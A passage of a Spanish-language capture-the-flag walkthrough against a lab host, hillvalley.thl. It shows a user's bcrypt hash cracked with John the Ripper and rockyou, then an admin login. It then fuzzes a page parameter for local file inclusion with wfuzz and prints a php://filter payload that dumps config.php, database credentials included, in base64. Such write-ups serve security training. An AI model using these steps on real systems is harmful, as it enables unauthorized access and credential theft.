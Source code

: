 Tenemos las credenciales de un usuario:
```bash
[+] Datos extraídos: marty:$2y$10$.YPplAJvApyzvxjuWXdeHO1lIkolJIq9GzGERgmHqHLi.1/.zGJhy                                                                                                                                                                                       
[+] Longitud: 66 caracteres
```

Ahora el valor del hash lo guardamos en un archivo:
```bash
echo '$2y$10$.YPplAJvApyzvxjuWXdeHO1lIkolJIq9GzGERgmHqHLi.1/.zGJhy' > hash.txt
```

Procedemos a realizar fuerza bruta:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Tenemos el siguiente resultado:
```bash
# Sabemos que tenemos usuario: marty
Press 'q' or Ctrl-C to abort, almost any other key for status
andromeda        (?)
```

Ahora sabemos que tenemos un login, y tambien esta expuesto **ssh** y tambien **mysql** en el puerto 3306, Por lo que intentaremos usar esas credenciales para ganar acceso
ingresamos las credenciales en la web
```bash
username: marty
password: andromeda
```

Tenemos acceso al panel administrativo:
```bash
http://hillvalley.thl/admin.php
```

Ahora que ganamos acceso tenemos esta seccion:
```bash
http://hillvalley.thl/admin.php?page=time_machine.php
```

por lo que con **wfuzz** probaremos si es vulnerable a **LFI**
```bash
wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -H "Cookie: PHPSESSID=0l72l6bse5ncn96eare69nvoue" -u "http://hillvalley.thl/admin.php?page=FUZZ" --hh=5755
```

Tenemos varias formas de derivar a **LFI**, Pirmero intentaremos traernos el archivo **config.php** para ver su contenido en **base64**
```bash
http://hillvalley.thl/admin.php?page=php://filter/convert.base64-encode/resource=config.php
```

Ahora tenemos esta cadena en base64
```bash
PD9waHANCiRob3N0ID0gImxvY2FsaG9zdCI7DQokdXNlciA9ICJtYXJ0eSI7DQokcGFzcyA9ICJ0MW0zdHJhdmVsIjsNCiRkYiA9ICJoaWxsdmFsbGV5IjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkaG9zdCwgJHVzZXIsICRwYXNzLCAkZGIpOw0KaWYgKCEkY29ubikgew0KICAgIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCj8
```
